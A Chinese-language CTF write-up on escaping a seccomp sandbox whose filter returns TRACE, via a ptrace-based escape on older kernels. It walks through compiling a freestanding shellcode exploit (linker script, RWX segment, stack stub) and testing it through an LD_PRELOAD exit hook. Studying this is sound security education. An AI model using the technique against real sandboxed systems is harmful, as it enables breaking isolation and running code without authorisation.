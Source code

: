 ```yaml
---
title: 羊城杯pwn4 - TRACE 沙箱逃逸
date: 2024-09-15 14:09:18
tags: TRACE 沙箱逃逸
---
```


### TRACE 沙箱逃逸

本题目为羊城杯 pwn4，为一道沙箱逃逸题目。首先查看沙箱规则，注意到不像通常沙箱的行为直接`return KILL`，而是`return TRACE`。

```
$ seccomp-tools dump ./pwn
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x07 0xc000003e  if (A != ARCH_X86_64) goto 0009
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x05 0x00 0x40000000  if (A >= 0x40000000) goto 0009
 0004: 0x15 0x04 0x00 0x00000002  if (A == open) goto 0009
 0005: 0x15 0x03 0x00 0x00000101  if (A == openat) goto 0009
 0006: 0x15 0x02 0x00 0x0000003b  if (A == execve) goto 0009
 0007: 0x15 0x01 0x00 0x00000142  if (A == execveat) goto 0009
 0008: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0009: 0x06 0x00 0x00 0x7ff00000  return TRACE
```

查阅资料发现`return TRACE`行为是由`SECCOMP_RET_TRACE`来控制，同时查阅第二节seccomp的手册对应的介绍。注意到两点（1）沙箱规则中的系统调用发生时会去通知该进程的tracer，tracer可以`skip`或者 `change to a valid system call`来处理本次系统调用。（2）4.8版本内核之前，在tracer被通知之后，沙箱就会不再检测，从而失效。第二点存在逃逸的可能，同时括号内说了安全的seccomp-based的沙箱应该禁止ptrace系统调用。

```
$ man 2 seccomp
...
SECCOMP_RET_TRACE
        When  returned, this value will cause the kernel to attempt to notify a ptrace(2)-based tracer prior to
        executing the system call.  If there is no tracer present, the system call is not executed and  returns
        a failure status with errno set to ENOSYS.

        A  tracer  will  be notified if it requests PTRACE_O_TRACESECCOMP using ptrace(PTRACE_SETOPTIONS).  The
        tracer will be notified of a PTRACE_EVENT_SECCOMP and the SECCOMP_RET_DATA portion of the filter's  re‐
        turn value will be available to the tracer via PTRACE_GETEVENTMSG.

        The  tracer  can  skip  the  system  call by changing the system call number to -1.  Alternatively, the
        tracer can change the system call requested by changing the system call to a valid system call  number.
        If  the  tracer asks to skip the system call, then the system call will appear to return the value that
        the tracer puts in the return value register.

        Before kernel 4.8, the seccomp check will not be run again after the tracer is notified.   (This  means
        that, on older kernels, seccomp-based sandboxes must not allow use of ptrace(2)—even of other sandboxed
        processes—without extreme care; ptracers can use this mechanism to escape from the seccomp sandbox.)

        Note that a tracer process will not be notified if another filter returns an action value with a prece‐
        dence greater than SECCOMP_RET_TRACE.
```

由于没办法确定远程环境的内核版本，同时查询到22年Google CTF有类似的[题目](https://n132.github.io/2022/07/04/S2.html)。作者进行了详尽的分析，它的环境应该是对执行二进制文件逃逸，但是本题只能用shellcode逃逸。把作者的exp拿来验证，确定本地可行。

接下来的工作就是怎么把作者的exp转化成shellcode放到本题来执行，这是我写这篇的目的。exp.cc中存在各种库函数的调用，还有fork之后父子进程的处理，手写shellcode比较复杂，所以尽量得借助于编译器。

1. 去除库函数的依赖

需要手动实现`syscall`和`memset`.
```c
static __inline long syscall6(long n, long a1, long a2, long a3, long a4, long a5, long a6)
{
  unsigned long ret;
  register long r10 __asm__("r10") = a4;
  register long r8  __asm__("r8")  = a5;
  register long r9  __asm__("r9")  = a6;
  __asm__ __volatile__ ("syscall" : "=a"(ret) : "a"(n), "D"(a1), "S"(a2),
              "d"(a3), "r"(r10), "r"(r8), "r"(r9) : "rcx", "r11", "memory");
  return ret;
}

static __inline void zero(unsigned char *s, size_t n) {
  while (n--) *s++ = 0;
}
```

2. freestanding的编译

为了保证shellcode尽可能短，不需要lib库的链接以及各种安全机制。

```Makefile
$(CC) -w -c shellcode.S -o shellcode.o
$(CC) -ffreestanding -w -c exp.c -o exp.o
```

3. 链接到指定地址

在题目中前段可以实现任意shellcode的执行，因此可以通过mmap去映射一段指定地址的内存，这里我们那使用0x800000举例。我们需要把编译出的shellcode以及自定义的函数链接到0x800000地址上，这可以通过给ld一个`linker.ld`的配置。

```Makefile
$(LD) shellcode.o exp.o -o $@ -T linker.ld
```
我们需要把所有的内容都集成到text段，因此把text段设置为可读可写可执行。
```
PHDRS
{
    text PT_LOAD FLAGS(7);  /* 7 = Read + Write + Execute */
}

SECTIONS
{
    . = 0x800000;
    .text : 
    {
        *(.text)
        *(.data)
        *(.bss)
    } : text
}
```

4. 提供初始化

通常在正常执行`execve`切换进程镜像时，操作系统内核会为进程申请栈空间，之后再返回到用户态的入口点，这样_start函数不需要自己处理栈内存，这是ABI规定的。但是我们必须在shellcode的入口点提供栈地址的初始化，因为编译器编译出的函数是需要使用栈的内存的。

栈空间不需要太大，根据函数rbp-rsp的间距和函数调用链的长度判断。这里没用选择使用PC偏移寻址，因此需要mmap的内存和链接地址一样，而使用PC偏移寻址在下文会执行失败。

```ASM
_start:
    lea rsp, [buf + 0x200]
    jmp exp
```

5. 测试shellcode

这是编译，链接，copy的流程。最后的exp.bin极为shellcode，可以使用xxd转化为头文件`exp.h`。

```
gcc -w -c shellcode.S -o shellcode.o
gcc -ffreestanding -w -c exp.c -o exp.o
ld shellcode.o exp.o -o exp -T linker.ld
objcopy -O binary -j .text exp exp.bin

xxd -i exp.bin > exp.h
```

我们通过劫持pwn题目的exit函数去验证执行shellcode能否绕过沙箱。

```C
#define _GNU_SOURCE
#include <dlfcn.h>
#include <stdio.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <sys/stat.h>
#include <unistd.h>
#include <string.h>
#include <stdlib.h>

#include "exp.h"

int probe(unsigned long addr, char* shellcode, int len) {
    void *rwx = mmap(
        (void*)addr, len, 
        PROT_READ | PROT_WRITE | PROT_EXEC, 
        MAP_PRIVATE | MAP_ANONYMOUS, 
        -1, 
        0
    );
    if (rwx == MAP_FAILED) {
        perror("mmap");
        return EXIT_FAILURE;
    }
    memcpy(rwx, shellcode, len);

    // Jump to the mapped memory and execute
    void (*func)() = rwx;
    func();

    // Clean up
    munmap(rwx, len);\
    return EXIT_SUCCESS;
}

typedef void (*exit_fn_t)(int status);

void exit(int status) {
    printf("hooked exit(%d)\n", status);
    probe(0x800000, exp_bin, exp_bin_len);
    
    exit_fn_t real_exit = (exit_fn_t)dlsym(RTLD_NEXT, "exit");
    real_exit(status);
}
```

劫持exit测试shellcode发现成功绕过沙箱。

```
$ LD_PRELOAD=./hook.so ./pwn
1. Add note
2. Delete note
3. Edit note
4. Show note
5. Exit
>5
hooked exit(0)
flag{aaaaaaaaaa}
^C
```


### Speedrun

本文的贡献是介绍了利用编译的能力去创造出一个具有复杂执行流的shellcode的方法。全部的代码放到[这里](https://github.com/Giles-one/DeadSeaScrolls/tree/main/YCB-pwn4)

```
$ make
gcc -w -c shellcode.S -o shellcode.o
gcc -ffreestanding -w -c exp.c -o exp.o
ld shellcode.o exp.o -o exp -T linker.ld
objcopy -O binary -j .text exp exp.bin
gcc -ggdb -o probe probe.c
xxd -i exp.bin > exp.h
gcc -ggdb -w -shared -fPIC -o hook.so hook.c
$ LD_PRELOAD=./hook.so ./pwn
1. Add note
2. Delete note
3. Edit note
4. Show note
5. Exit
>5
hooked exit(0)
flag{aaaaaaaaaa}
^C
```

